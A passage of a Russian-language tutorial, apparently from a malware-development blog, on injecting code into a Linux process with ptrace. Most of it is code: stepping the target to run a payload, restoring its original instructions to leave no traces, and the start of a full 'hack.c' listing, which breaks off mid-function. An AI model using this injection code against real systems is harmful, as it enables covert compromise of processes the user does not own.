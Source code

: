 Как видите, эта функция аналогична `read_mem`, но предназначена для записи памяти.      

На следующем этапе мы изменяем указатель команд (`RIP`) процесса, чтобы выполнить внедренную полезную нагрузку:     

```cpp
ptrace(PTRACE_CONT, target_pid, NULL, NULL);
```

После выполнения полезной нагрузки мы восстанавливаем исходные инструкции памяти, чтобы избежать сбоя процесса или оставления следов:      

```cpp
write_mem(target_pid, target_regs.rip, original_code, payload_len);
```

Наконец, отсоединяемся от целевого процесса, позволяя ему продолжить нормальную работу:     

```cpp
ptrace(PTRACE_DETACH, target_pid, NULL, NULL);
```

Таким образом, полный исходный код нашего вредоносного кода для инъекции (`hack.c`) выглядит следующим образом:         

```cpp
/*
 * hack.c
 * practical example of linux process injection
 * author @cocomelonc
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <unistd.h>

// read memory from the target process
void read_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
    NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), 
    NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
  }
}

// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
```